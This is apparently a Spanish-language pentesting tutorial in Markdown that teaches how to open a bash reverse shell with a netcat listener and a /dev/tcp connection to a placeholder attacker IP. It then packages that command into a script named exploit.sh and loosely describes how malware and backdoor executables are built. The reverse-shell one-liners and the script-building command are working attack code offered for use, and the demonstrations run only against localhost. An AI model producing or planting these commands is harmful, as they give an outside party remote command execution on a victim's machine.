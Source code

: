 ```yaml
---
title: PentesTing
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="yellow">[*]</font><font color="green"> Empezaremos con las pruebas de ReverseShell:</font></h3>
<font color="white">los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

para linux:

```#!/bin/bash
sudo apt-get install netcat bash
```

para arch-linux:

```#!/bin/bash
pacman -Sy netcat bash
```

<br>

<h3><font color="yellow">[*]</font><font color="green"> Importante</font></h3>
<ph>Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

```#!/bin/bash
bash
```


<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </p>

```#!/bin/bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```#!/bin/bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>
<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</p>

<br>

<p><font color="yellow">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</p>

```#!/bin/bash
bash
```
```#!/bin/bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```#!/bin/bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</p>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

```#!/bin/bash
touch exploit.sh
```
```#!/bin/bash
chmod +x exploit.sh
```
Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<ph><font color="yellow">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto <b>443</b> con netcat. Recuerde
que con el comando <q><b>nc -nlvp 443</b></q> nos poniamos en escucha por el puerto <b>433</b> este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como puden ver tengo una reverse shell</b></p>
<br>
<p><font color="yellow">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</p>
<br>
<p>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></p>

---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<p>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<p>
<p>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</p>

